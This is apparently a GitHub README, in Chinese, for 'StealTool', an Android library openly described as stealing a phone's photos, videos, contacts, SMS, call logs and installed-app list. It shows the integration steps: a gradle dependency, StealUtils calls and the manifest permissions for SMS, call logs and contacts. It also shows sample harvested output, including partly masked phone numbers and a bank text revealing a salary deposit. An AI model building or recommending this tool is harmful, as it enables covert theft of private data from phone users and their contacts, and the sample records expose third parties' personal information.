 # 盗取手机敏感信息，Android 6.0之上兼容

### 项目介绍
- 盗取信息包含：
    - 手机中所有照片
    - 手机中所有视频
    - 手机中所有通讯录
    - 手机中所有短信
    - 手机中所有通话记录
    - 手机中所有安装应用
- 兼容Android 6.0及之上版本
- 动态权限申请工具开放

### 效果展示

##### 1.照片信息
```java
    MaterialBean{mLogo='/storage/emulated/0/Pictures/Screenshots/Screenshot_2017-07-23-01-38-14.png', title='Screenshot_2017-07-23-01-38-14.png', time='2017-07-23 01:38', filePath='/storage/emulated/0/Pictures/Screenshots/Screenshot_2017-07-23-01-38-14.png', isChecked=false, fileSize=1025172, fileId=89cfda75f36e44e3a46235937a8c3000, uploadedSize=0, fileType=6, uploaded=false, progress=0, timeStamps='1536657493366', flag='0'}

```
##### 2.视频信息
```java
      MaterialBean{mLogo='/storage/emulated/0/DCIM/Camera/视频/VID_20170917_130313.mp4', title='VID_20170917_130313.mp4', time='视频时间-00:00:11', filePath='/storage/emulated/0/DCIM/Camera/视频/VID_20170917_130313.mp4', isChecked=false, fileSize=29080924, fileId=7be02431aeff4d19b2612b686543ce10, uploadedSize=0, fileType=2, uploaded=false, progress=0, timeStamps='1536657639141', flag='0'}

```

##### 3.通讯录
```java
    PhoneUserInfo{id='daaf163b02d44e6dabf59cfb9a8c0958', name='*鹏', number='151**054191'}
    PhoneUserInfo{id='15aebbd2e6134e59992192b095f0e67c', name='侯*利', number='1830***2828'}
    PhoneUserInfo{id='28bcabbb14e24e3da4b5bd79c10dfa46', name='*八', number='187337**438'}
    PhoneUserInfo{id='3d637ea6910f4b71a105ae06b7ba3645', name='申通小哥', number='18513**8127'}

```

##### 4.短信
```java
    [ 10659805436945326, 0, 【luckin coffee】小蓝杯，北马爱~送你一张5折券（全场饮品通用）下载app立享http://t.cn/RlQ2ad3 回TD退订, 2018-09-11 01:42:27, 接收 ]

    [ 95555, 0, 您账户8693于09月11日11:42入账工资，人民币22267.30。[招商银行], 2018-09-11 11:46:28, 接收 ]

```

##### 5.通话记录
```java
     CallInfo{number='13141**2862', date=1527322406732, type=2}
    CallInfo{number='1891**85043', date=1527325280548, type=1}
    CallInfo{number='1360110**83', date=1527335837700, type=2}

```

##### 6.安裝App
```java
    AppInfo{appName='CSDN', appIcon='android.graphics.drawable.BitmapDrawable@eb62aed'}
    AppInfo{appName='皮皮虾', appIcon='android.graphics.drawable.BitmapDrawable@4f2ad22'}
    AppInfo{appName='Chrome', appIcon='android.graphics.drawable.BitmapDrawable@66043b3'}
    AppInfo{appName='UC浏览器', appIcon='android.graphics.drawable.BitmapDrawable@b0f8d70'}
    AppInfo{appName='抖音短视频', appIcon='android.graphics.drawable.BitmapDrawable@75788e9'}

```

### 最简单使用方式

##### 1. Add it in your root build.gradle at the end of repositories:

```java
allprojects {
		repositories {
			...
			maven { url 'https://jitpack.io' }
		}
	}
```
##### 2. Add the dependency

```java
dependencies {
	        implementation 'com.github.pengMaster:StealTool:1.0.0'
	}
```
##### 3. Add use to activity

```java
//获取图片
StealUtils.getAllLocalPhotos(this@MainActivity)

//获取视频
StealUtils.getAllLocalVideos(this@MainActivity)

//获取联系人
StealUtils.getAllContactInfo(this@MainActivity)

//获取短信
StealUtils.getSmsInPhone(this@MainActivity)

//获取通话记录
StealUtils.getCallInfos(this@MainActivity)

//获取安装所有App
StealUtils.getInstallApp(packageManager)


java (this) = kotlin (this@MainActivity)
java (getPackageManager()) = kotlin (packageManager)

```

##### 4. add permission to your menifest

```java
    <!--读-->
    <uses-permission android:name="android.permission.READ_EXTERNAL_STORAGE" />
    <!--联网-->
    <uses-permission android:name="android.permission.INTERNET" />
    <!--联系人-->
    <uses-permission android:name="android.permission.READ_CONTACTS" />
    <uses-permission android:name="android.permission.READ_PHONE_STATE" />
    <!--短信-->
    <uses-permission android:name="android.permission.READ_SMS" />
    <!--通话记录-->
    <uses-permission android:name="android.permission.READ_CALL_LOG" />
```

### 介绍一下很好用的Android6.0动态权限申请工具


####  申请一个权限：
```
PERMISSION_CAMERA = 申请权限（例如：Manifest.permission.READ_SMS）
REQUEST_CODE_CAMERA = 请求返回码 重写onRequestPermissionsResult()时用

PermissionUtils.checkAndRequestPermission(mContext, PERMISSION_CAMERA, REQUEST_CODE_CAMERA,
                new PermissionUtils.PermissionRequestSuccessCallBack() {
            @Override
            public void onHasPermission() {
                // 权限已被授予

            }
        });
```
#### 然后在onRequestPermissionsResult中：

```
if(PermissionUtils.isPermissionRequestSuccess(grantResults))
                {
                    // 权限申请成功

                }
```

#### 什么？要同时申请多个权限？
```
    PermissionUtils.checkAndRequestMorePermissions(mContext, PERMISSIONS, REQUEST_CODE_PERMISSIONS,
                new PermissionUtils.PermissionRequestSuccessCallBack() {
            @Override
            public void onHasPermission() {
                // 权限已被授予

            }
        });
```
#### 当然上面这些都不是申请权限的正确姿势，理想的姿势应该是：
- 第一次申请权限：按照正常流程走；
- 如果用户第一次拒绝了权限申请，第二次申请时应向用户解释权限用途；
- 如果用户勾选了“不再询问”选项，应引导用户去设置页手动开启权限。

于是，引申出了复杂版的权限申请方法：
## 自定义权限申请：
```
PERMISSION_CAMERA = 申请权限（例如：Manifest.permission.READ_SMS）
PermissionUtils.checkPermission(mContext, PERMISSION_CAMERA,
                new PermissionUtils.PermissionCheckCallBack() {
            @Override
            public void onHasPermission() {
                // 已授予权限

            }

            @Override
            public void onUserHasAlreadyTurnedDown(String... permission) {
                // 上一次申请权限被拒绝，可用于向用户说明权限原因，然后调用权限申请方法。
            }

            @Override
            public void onUserHasAlreadyTurnedDownAndDontAsk(String... permission) {
                // 第一次申请权限或被禁止申请权限，建议直接调用申请权限方法。
            }
        });
```
#### 然后在onRequestPermissionsResult中：

```
PermissionUtils.onRequestPermissionResult(mContext, PERMISSION_CAMERA, grantResults, new PermissionUtils.PermissionCheckCallBack() {
                    @Override
                    public void onHasPermission() {

                    }

                    @Override
                    public void onUserHasAlreadyTurnedDown(String... permission) {
                        Toast.makeText(mContext, "我们需要"+Arrays.toString(permission)+"权限", Toast.LENGTH_SHORT).show();
                    }

                    @Override
                    public void onUserHasAlreadyTurnedDownAndDontAsk(String... permission) {
                        Toast.makeText(mContext, "我们需要"+Arrays.toString(permission)+"权限", Toast.LENGTH_SHORT).show();
                        // 显示前往设置页的dialog
                        );
                    }
                });
```
#### 参与贡献

1. Fork 本项目
2. 新建 Feat_xxx 分支
3. 提交代码
4. 新建 Pull Request
5. 权限工具参考：https://github.com/ifadai/PermissionUtils


#### github地址

 - 项目地址：https://github.com/pengMaster/StealTool

